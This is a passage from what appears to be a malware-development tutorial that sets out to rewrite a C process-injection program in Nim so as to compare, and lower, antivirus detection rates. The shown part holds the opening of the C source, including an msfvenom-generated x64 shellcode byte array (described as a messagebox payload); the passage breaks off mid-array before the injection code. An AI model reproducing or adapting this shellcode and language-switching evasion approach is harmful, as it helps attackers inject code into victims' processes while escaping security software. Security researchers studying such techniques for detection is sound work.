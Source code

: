 # Malware Development: from C to Nim. Simple process injection example

﷽

Hello, cybersecurity enthusiasts and white hackers!     

![img](./img/2024-06-01_12-12.png)    

When malware is found to be written in new programming languages, AV detections are often failing since the new language produces bytecode sequences that are relatively unknown, combined with strings of data that can throw off static-based heuristic models.     

For this reason, in this article today we will look at a classic malware in C and rewrite it on Nim and compare AV detection scores.      

First of all, consider a simple C malware example:    

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// using msfvenom for windows/x64/messagebox with text and title, excluding certain characters
unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
```